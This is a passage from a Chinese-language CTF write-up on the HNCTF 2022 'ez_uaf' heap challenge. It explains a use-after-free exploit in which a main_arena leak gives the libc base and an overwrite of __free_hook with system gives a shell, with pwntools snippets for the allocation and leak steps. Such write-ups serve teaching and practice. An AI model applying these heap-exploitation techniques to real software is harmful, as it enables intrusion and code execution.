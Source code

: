    ```python
   p.interactive()
   
   
   ```

   ![image-20240713150054834](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407131500909.png)



## 3.题目：

### 注意点: 覆盖 __free_hook

题目地址：[[HNCTF 2022 WEEK4\]ez_uaf | NSSCTF](https://www.nssctf.cn/problem/3105)

1. 利用**UAF漏洞** 和Fast chunk实现**任意地址写**，覆盖 **__free_hook** 为system从而拿到shell.

### 解题:

1. 先看add函数申请的chunk结构,建议直接gdb上看,大致结构,细节处再看代码:

   ![image-20240711205605996](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112056084.png)

   ![image-20240711205644517](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112056592.png)

2. delete函数中:

   ![image-20240711205814077](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112058147.png)

3. show函数:

   ![image-20240711205929798](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112059859.png)

4. edit函数:

   ![](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112100650.png)

### 利用:

1. 先申请4个chunk:

   ```python
   add(0x10,b"a",b"a")   #0 利用UAF实现任意地址写,申请的大小与name大小要不同,否则后面可能申请不到heaplist指向的chunk
   add(0x10,b"b",b"b")   #1 功能同chunk0
   add(0x420,b'a',b'b')  #2 泄漏main_arena，进而泄漏libc基地址
   add(0x10,b"b",b"b")   #3 防止2释放后被收回top
   ```

2. 泄漏main_arena上的unserted地址,并计算出libc的基地址:

   ```python
   free(2)
   printf(2)
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   libc_base = addr-(main_arena_offset+0x60)
   success("libc_addr==>"+hex(libc_base))
   ```
